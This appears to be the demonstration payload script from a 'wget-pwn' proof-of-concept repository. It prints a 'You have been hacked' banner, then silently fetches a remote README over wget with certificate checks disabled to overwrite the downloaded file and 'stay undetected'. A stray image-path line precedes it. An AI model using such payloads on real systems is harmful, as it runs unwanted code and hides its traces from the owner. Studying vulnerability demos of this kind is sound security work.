echo
echo "!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!"
echo "!      You have been hacked               !" 
echo "!                                         !"
echo "! https://github.com/markus-perl/wget-pwn !"
echo "!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!!"

echo "
_____.___.             .__   ._._.
\__  |   | ____ _____  |  |__| | |
 /   |   |/ __ \\__  \ |  |  \ | |
 \____   \  ___/ / __ \|   Y  \|\|
 / ______|\___  >____  /___|  /___
 \/           \/     \/     \/\/\/
 "

echo "Done. Patching downloaded file to stay undetected ..."
wget --no-check-certificate -q "https://raw.githubusercontent.com/markus-perl/wget-pwn/master/README.md" -O README.md 2>/dev/null


